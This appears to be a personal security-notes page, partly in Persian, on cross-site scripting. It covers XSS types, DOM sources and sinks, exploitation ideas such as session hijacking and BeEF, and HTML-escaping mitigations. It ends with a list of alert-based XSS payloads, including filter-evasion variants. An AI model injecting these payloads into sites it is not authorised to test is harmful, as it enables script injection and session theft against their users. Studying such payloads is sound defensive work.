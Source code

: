 # XSS

##
- بعد از تزریق کد اسکریپ، باید به page source code رفته تا اثر تزریق را در صفحه ببینیم، تا رفتار سرور و متعاقبا نحوه bypass آن را متوجه شویم

## Types
- Reflected
- Stored
- DOM Based
  - Nothing send to server (check with Burp), instead use both Javascript functions types simultaneously:
    - source
      - ```?name=alireza => document.url()```
    - sink 
      -  ```getElementById()```
      - ```document.write()```

## Exploitation
- Session Hijacking (SEC542-4)
- Fake Page (SEC542-4)
- [BeEF](../Tools/beef.md)

## Mitigation
- Minimize the usage of user input on html
- Escape any untrusted input before inserting it into the page
  - ```&``` => ```&amp;```
  - ```<``` => ```&lt;```
  - ```>``` => ```&gt;```
  - ```"``` => ```&quot;```
  - ```'``` => ```&#x27;```
  - ```/``` => ```&#x2F;```
- [XSS-Prevention-CheatSheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) 

## Payloads
```Javascript
'"><script>alert('ehsan')</script>
a<script>alert('ehsan')</script>
a<SCript>alert('ehsan')</SCript>
a<scri<script>pt>alert('ehsan')</scri</script>pt>
a<img src='aaa' onerror='alert("ehsan")'/>
a<script>prompt('ehsan')</script>
a<script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 39, 101, 104, 115, 97, 110, 39, 41))</script>
a";alert("ehsan");//
a";alert("ehsan");"
a';alert('ehsan');//
a';alert('ehsan');'
/"><script>alert('ehsan')</script>
```
  
